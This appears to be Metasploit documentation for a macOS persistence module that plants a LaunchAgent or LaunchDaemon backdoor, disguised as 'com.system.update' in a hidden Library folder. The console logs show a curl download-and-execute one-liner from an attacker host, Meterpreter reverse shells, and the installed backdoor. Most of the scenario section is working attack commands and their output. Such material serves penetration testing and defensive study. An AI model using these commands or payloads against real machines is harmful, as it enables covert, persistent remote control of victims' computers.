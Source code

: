 ## Vulnerable Application

This module provides a persistent boot payload by creating a launch item, which can be
a LaunchAgent or a LaunchDaemon. LaunchAgents run with user level permissions and are triggered
upon login by a plist entry in `~/Library/LaunchAgents`. LaunchDaemons run with
elevated privilleges, and are launched before user login by a plist entry in the `~/Library/LaunchDaemons` directory.
In either case the plist entry specifies an executable that will be run before or at login.

Verified on OSX 11.7.10 (Big Sur), 13.7.4 (Ventura)

## Verification Steps

1. Start msfconsole
1. Get a shell
1. Do: `use exploit/osx/persistence/launch_plist`
1. Do: `run`
1. You should get a shell.

## Options

### BACKDOOR_PATH

Path to hide the backdoor on the target. Defaults to `~/Library/.<random>/com.system.update`

### KEEPALIVE

Continually restart the payload exe if it crashes/exits. Defaults to `true`

### RUN_NOW

Run the installed payload immediately. Defaults to `false`

### LAUNCH_ITEM

Type of launch item, see description for more info. Choices are `LaunchAgent`, `LaunchDaemon`. Default is `LaunchAgent`

## Scenarios

### 13.7.4

Initial access via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 8
target => 8
resource (/root/.msf4/msfconsole.rc)> set srvport 8383
srvport => 8383
resource (/root/.msf4/msfconsole.rc)> set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4747
lport => 4747
resource (/root/.msf4/msfconsole.rc)> set URIPATH m
URIPATH => m
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 111.111.1.111:4747 
[*] Using URL: http://111.111.1.111:8383/m
[*] Server started.
[*] Run the following command on the target machine:
curl -sk --output 8D4tNTA4 http://111.111.1.111:8383/m; chmod +x 8D4tNTA4; ./8D4tNTA4& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.22.2.2       web_delivery - Delivering Payload (815032 bytes)
[*] Meterpreter session 1 opened (111.111.1.111:4747 -> 222.22.2.2:49156) at 2025-02-19 19:04:25 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/osx/persistence/launch_plist 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/Users/macos) > getuid
Server username: macos
(Meterpreter 1)(/Users/macos) > sysinfo
Computer     : 20.20.20.21
OS           : macOS Ventura (macOS 13.7.4)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /Users/macos/Library is writable
[*] Dropping backdoor executable...
[+] Backdoor stored to /Users/macos/Library/.QVecGcAF/com.system.update
[+] LaunchAgent added: /Users/macos/Library/LaunchAgents/com.system.update.plist
[+] LaunchAgent installed successfully.
[*] To remove the persistence, run:
rm -rf /Users/macos/Library/.QVecGcAF ; rm /Users/macos/Library/LaunchAgents/com.system.update.plist ; launchctl remove com.system.update ; launchctl stop com.system.update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/20.20.20.21_20250219.0704/20.20.20.21_20250219.0704.rc
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/Users/macos) > shell
Process 2138 created.
Channel 8 created.
launchctl load -w /Users/macos/Library/LaunchAgents/com.system.update.plist
[*] Meterpreter session 5 opened (111.111.1.111:4444 -> 222.22.2.2:49157) at 2025-02-19 19:11:23 -0500
```
